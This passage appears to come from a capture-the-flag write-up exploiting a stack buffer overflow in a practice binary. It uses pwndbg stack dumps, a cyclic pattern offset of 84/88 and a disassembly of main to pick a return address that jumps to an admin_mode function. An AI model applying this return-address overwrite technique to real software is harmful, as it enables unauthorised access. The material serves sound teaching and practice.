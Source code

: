 ```console
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ rsp 0x7fffffffdf88 ◂— 'waaaxaaayaaazaabbaabcaabdaabeaabfaabga'
01:0008│     0x7fffffffdf90 ◂— 'yaaazaabbaabcaabdaabeaabfaabga'
02:0010│     0x7fffffffdf98 ◂— 'baabcaabdaabeaabfaabga'
03:0018│     0x7fffffffdfa0 ◂— 'daabeaabfaabga'
04:0020│     0x7fffffffdfa8 ◂— 0x616762616166 /* 'faabga' */
05:0028│     0x7fffffffdfb0 ◂— 0x0
06:0030│     0x7fffffffdfb8 ◂— 0xc452380b2e871259
07:0038│     0x7fffffffdfc0 —▸ 0x4010e0 (_start) ◂— xor    ebp, ebp
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0         0x4013f6 main+177
   f 1 0x6161617861616177
   f 2 0x6261617a61616179
   f 3 0x6261616362616162
   f 4 0x6261616562616164
   f 5   0x616762616166
   f 6              0x0
────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```
Our offset is 84. Then add 4 to get to the end of $RBP and that gives 88 where our segmentation fault occurs and we can start writing a new address to jump too.

```console
cyclic -l vaaa
84
```
We can also see that in $rsp that on address line 0x7fffffffdf80 that an address is being read and we can overwrite this.

```console
0x7fffffffdf20:	0xffffe078	0x00007fff	0x00000000	0x00000001
0x7fffffffdf30:	0x61616161	0x61616162	0x61616163	0x61616164
0x7fffffffdf40:	0x61616165	0x61616166	0x61616167	0x61616168
0x7fffffffdf50:	0x61616169	0x6161616a	0x6161616b	0x6161616c
0x7fffffffdf60:	0x6161616d	0x6161616e	0x6161616f	0x61616170
0x7fffffffdf70:	0x61616171	0x61616172	0x61616173	0x61616174
0x7fffffffdf80:	0x61616175	0x00616176	0xf7e0cd00	0x00007fff
0x7fffffffdf90:	0xffffe078	0x00007fff	0x00000000	0x00000001
0x7fffffffdfa0:	0x00401345	0x00000000	0xf7e0c7cf	0x00007fff
0x7fffffffdfb0:	0x00000000	0x00000000	0x74d22510	0x0b68a730
0x7fffffffdfc0:	0x004010e0	0x00000000	0x00000000	0x00000000
0x7fffffffdfd0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdfe0:	0xe3f22510	0xf497584f
```

Since we want the address to take us to admin_mode we will use the address that calls to admin_mode from main. You could also disassemble admin_mode and use the starting address in there "0x401326" 

```console
pwndbg> disassemble main
Dump of assembler code for function main:
   0x0000000000401345 <+0>:	push   rbp
   0x0000000000401346 <+1>:	mov    rbp,rsp
   0x0000000000401349 <+4>:	sub    rsp,0x60
   0x000000000040134d <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000401350 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x0000000000401354 <+15>:	mov    DWORD PTR [rbp-0x4],0x0
   0x000000000040135b <+22>:	lea    rdi,[rip+0xd06]        # 0x402068
   0x0000000000401362 <+29>:	call   0x401040 <puts@plt>
   0x0000000000401367 <+34>:	mov    eax,0x0
   0x000000000040136c <+39>:	call   0x401235 <login>
   0x0000000000401371 <+44>:	xor    eax,0x1
   0x0000000000401374 <+47>:	test   al,al
   0x0000000000401376 <+49>:	je     0x40139f <main+90>
```